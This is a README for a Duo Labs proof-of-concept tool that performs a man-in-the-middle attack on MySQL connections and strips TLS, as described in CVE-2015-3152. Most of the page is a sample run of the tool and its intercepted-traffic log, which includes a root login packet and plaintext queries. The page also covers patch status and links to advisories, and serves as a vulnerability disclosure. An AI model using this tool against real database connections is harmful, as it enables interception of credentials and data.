 # mysslstrip

mysslstrip is a Python-based proof of concept showing how to MITM
MySQL traffic and strip SSL/TLS, as per [CVE-2015-3152](http://www.openwall.com/lists/oss-security/2015/04/29/4).

## Usage

`mysslstrip.py [-h] [-p LISTEN_PORT] [-i LISTEN_INTERFACE] dest`

## Example Output

```
[root@duo1 ~]# python2.7 mysslstrip.py -p 3307 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] Log opened.
2015-04-29 21:33:14+0000 [-] listen: 127.0.0.1:3307; connect: 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] MySQLForwardServerFactory starting on 3307
2015-04-29 21:33:14+0000 [-] Starting factory <__main__.MySQLForwardServerFactory instance at 0x7f7769912fc8>
2015-04-29 21:33:21+0000 [__main__.MySQLForwardServerFactory] Starting factory <twisted.internet.endpoints.OneShotFactory instance at 0x7f776787c248>
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: 'J\x00\x00\x00\n5.6.21\x00\x04\x00\x00\x00"l{I8{%D\x00\xff\xff\x08\x02\x00\x7f\xc0\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00fSPsur[Rg/S6\x00mysql_native_password\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\xb6\x00\x00\x01\x85\xa6\x7f@\x00\x00\x00\x01!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14U\xe7\x0b\x0cs\xb5\xf3\x00\x07&=\xa8\xa6\xf9I\xf0\x86}G\xffmysql_native_password\x00e\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x042361\x0f_client_version\x065.6.21\t_platform\x06x86_64\x0cprogram_name\x05mysql'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x07\x00\x00\x03\x00\x00\x00\x02\x00\x00\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '!\x00\x00\x00\x03select @@version_comment limit 1'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: "\x01\x00\x00\x01\x01'\x00\x00\x02\x03def\x00\x00\x00\x11@@version_comment\x00\x0c!\x00x\x00\x00\x00\xfd\x00\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00)\x00\x00\x04(Distributed by The IUS Community Project\x05\x00\x00\x05\xfe\x00\x00\x02\x00"
2015-04-29 21:33:27+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x16\x00\x00\x00\x03SELECT "HELLO, WORLD"'
2015-04-29 21:33:27+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x01\x00\x00\x01\x01"\x00\x00\x02\x03def\x00\x00\x00\x0cHELLO, WORLD\x00\x0c!\x00$\x00\x00\x00\xfd\x01\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00\r\x00\x00\x04\x0cHELLO, WORLD\x05\x00\x00\x05\xfe\x00\x00\x02\x00'
2015-04-29 21:33:33+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x01\x00\x00\x00\x01'
```

## Additional Information


**Is this a real vulnerability?**

Yes! Encrypt all the things. Allowing opportunistic degradation of encryption is pretty poor practice.

**Patch?**

It's been fixed in [MySQL 5.7.3](http://dev.mysql.com/doc/relnotes/mysql/5.7/en/news-5-7-3.html) ... but the security
patch hasn't been backported to any other version, so if you're on 5.6 like 99.99% of the Internet is, you're out of
luck unless you switch to the 5.7 "preview release".

Created by [Adam Goodman](https://twitter.com/akgood) of [Duo Labs](https://labs.duosecurity.com).

**Inquiries?**

PR Inquiries: [this.is.a.really.big.deal@duosecurity.com](mailto:this.is.a.really.big.deal@duosecurity.com)  
Technical Inquiries: [this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com](mailto:this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com)  
Twitters: [@duo\_labs](https://twitter.com/duo_labs)

### References

[https://www.duosecurity.com/blog/backronym-mysql-vulnerability](https://www.duosecurity.com/blog/backronym-mysql-vulnerability)  
[http://www.openwall.com/lists/oss-security/2015/04/29/4](http://www.openwall.com/lists/oss-security/2015/04/29/4)  
[http://www.ocert.org/advisories/ocert-2015-003.html](http://www.ocert.org/advisories/ocert-2015-003.html)  
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152)
